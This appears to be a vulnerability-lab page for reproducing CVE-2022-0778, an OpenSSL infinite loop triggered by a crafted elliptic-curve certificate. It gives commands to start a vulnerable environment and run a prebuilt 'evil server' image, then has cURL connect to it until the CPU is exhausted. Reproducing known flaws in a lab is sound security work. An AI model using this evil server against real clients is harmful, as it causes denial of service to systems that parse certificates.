

OpenSSL Infinite Loop Leads to DoS (CVE-2022-0778)¶
OpenSSL is a software library for applications that secure communications over computer networks against eavesdropping or need to identify the party at the other end.
A flaw was found in OpenSSL. It is possible to trigger an infinite loop by crafting a certificate that has invalid elliptic curve parameters. Since certificate parsing happens before verification of the certificate signature, any process that parses an externally supplied certificate may be subject to a denial of service attack.
Reference links:
- https://github.com/drago-96/CVE-2022-0778
- https://www.cnblogs.com/logchen/p/16030515.html
- https://catbro666.github.io/posts/83951100/
- https://github.com/yywing/cve-2022-0778
Vulnerability environment¶
Execute following command to start a server:
docker compose up -d
Reproduce vulnerability¶
Firstly, use this project to build and run an evil server. If you don't have the Golang compiler, just use the Docker image:
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
Then you can monitor the CPU usage inside the container through top:
docker compose exec curl top
This vulnerability is available when parsing the certificate, so we can use the cURL to demonstrate it.
Entry the environment, and use the cURL to browse the evil server that started before:
docker compose exec curl bash
curl -k https://host.docker.internal:12345
At this point, cURL will be caught in an infinite loop, and CPU resources will be exhausted unexpectedly:
